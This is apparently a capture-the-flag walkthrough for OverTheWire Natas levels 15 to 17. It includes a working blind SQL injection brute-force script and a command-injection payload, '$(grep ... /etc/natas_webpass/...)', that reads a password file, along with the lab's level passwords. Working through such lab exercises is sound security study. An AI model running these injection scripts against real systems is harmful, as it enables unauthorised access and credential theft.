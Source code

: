 # Level 15 - 16
Inspecting the code shows that there is no explicit way to get the password. So we have to use a blind SQLi to confirm the password character by character. 

We'll do this with a python script. The `requests` library to get it done, but how do we make our request pass the login that we had to do to get in here in the first place? Opening up Burp suite and looking in the headers of a HTTP request, we see that the site uses HTTP basic auth, which sends the current password in plaintext:

`Authorization: Basic bmF0YXMxNTpBd1dqMHc1Y3Z4clppT05nWjlKNXN0TlZrbXhkazM5Sg==`

So, all we need to do is use a package to do the same. Fortunately, there is one that ships with `requests`! Now all we have to do is write our script guesses each character in the password by brute force by exploiting the query.

```python
import requests
from requests.auth import HTTPBasicAuth

user = "natas15"
pw = "AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J"

# Empty container for our final password
hacc = ""

# Set of all alphanumeric characters
chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

while (len(hacc) < 32):
    for char in chars:
        exploit = {
            "username": f'natas16" AND password LIKE BINARY"{hacc + char}%'
        }
        print(exploit)
        r = requests.post('http://natas15.natas.labs.overthewire.org/?debug', data=exploit, auth=HTTPBasicAuth(user, pw))

        if 'exists' in r.text:
            hacc += char
            print(hacc)
            break
```

This works and obtains the password, but it's really slow. We are doing possibly 62 HTTP requests for each of the 32 characters in the password. Therefore we can speed it up by filtering out characters that don't exist in the password with a preliminary query loop. Of course, there are ways to do better:
- Divide and conquer the password guessing with a distributed algorithm
- "Split" the password in groups, allowing more filtering of the characters in each group

But they probably aren't worth the effort right now.


# Level 16 - 17
We've got another needle in a haystack exercise. However, this time we see that the characters we would usually use to escape the `grep` command have been blacklisted. Additionally, the `$key` is now surrounded by quotes and is purely a string.

```php
if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
} else {
    passthru("grep -i \"$key\" dictionary.txt");
}
```

We're restricted to using grep honestly: no shell escapes or searching multiple files. Fortunately, we have a way to inject raw terminal code into the substring that we are matching. Therefore if we search a very specific word in the dictionary, followed by our grep query, there will be no result if our grep query returned a line. An example is as follows:
```
Input: thumps
Output: thumps

Input: thumps$(grep a /etc/natas_webpass/natas17)
Output: thumps

Input: thumps$(grep b /etc/natas_webpass/natas17)
Output: 
```

So now we need to write a python script just like we did last time to do this brute force attack. First we use our query to get a list of all characters that exist in the password, and then we'll use grep with a regex match to get the exact password, all done using GET requests using the `requests` module with HTTP basic authentication.

```python
import requests
from requests.auth import HTTPBasicAuth

user = "natas16"
pw = "WaIHEacj63wnNIBROHeqi3p9t0m5nhmh"

# Empty container for our final password
hacc = ""

# Set of all alphanumeric characters
chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
filtered = ""

for char in chars:
    exploit = {
        'needle': f'thumps$(grep {char} /etc/natas_webpass/natas17)'
    }
    r = requests.get('http://natas16.natas.labs.overthewire.org/', params=exploit, auth=HTTPBasicAuth(user, pw))
    if 'thumps' not in r.text:
        filtered += char
        print(filtered)

while (len(hacc) < 32):
    for char in filtered:
        exploit = {
            'needle': f'thumps$(grep ^{hacc + char} /etc/natas_webpass/natas17)'
        }
        r = requests.get('http://natas16.natas.labs.overthewire.org/', params=exploit, auth=HTTPBasicAuth(user, pw))

        if 'thumps' not in r.text:
            hacc += char
            print(hacc)
            break
```

